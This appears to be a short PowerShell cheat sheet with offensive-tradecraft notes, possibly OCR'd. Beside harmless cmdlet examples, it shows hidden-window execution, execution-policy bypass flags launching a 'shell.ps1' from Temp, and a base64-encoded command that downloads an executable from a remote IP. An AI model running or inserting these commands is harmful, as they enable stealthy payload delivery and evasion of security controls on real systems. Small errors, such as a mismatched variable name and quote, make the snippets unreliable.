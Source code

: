 ### forEach-Object

```csharp
Get-Process |ForEach-Object {$_.Name}
Get-Process |ForEach-Object {$_.Name, $_.Path}
```

###  **Where-Object**

```csharp
Get-ChildItem |Where-Object {$_.name -match "txt"}
```

### Hidden window

```csharp
powershell -windowstyle hidden script.ps1
```

### Bypass execution restrictions

```cpp
powershell.exe -NoE -Nop -NonI -ExecutionPolicy Bypass -C
powershell.exe -version 2 -exec bypass -C C:\Users\Raziel\AppData\Local\Temp\xyz\shell.ps1
```

### Base64 Encoding

```csharp
$cmd = "IEX(New-Object system.Net.WebClient).DownloadFile('http://10.0.0.17/file.exe', ‘C:\file.exe')"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($cmd)
$encodedCommand = [Convert]::ToBase64String($bytes)
powershell.exe -EncodedCommand $encoded
```

### Powershell Environnement

```csharp
[environment]::Is64BitOperatingsystem `
True 
PS C:\temp>[ 
environment
]::Is64BitProcess 
False
```

* Get 64bit powershell

```csharp
C:\Windows\Sysnative\WindowsPowerShell\v1.0>powershell.exe
powershell.exe
Windows PowerShell
Copyright (C) 2016 Microsoft Corporation. All rights reserved.
```
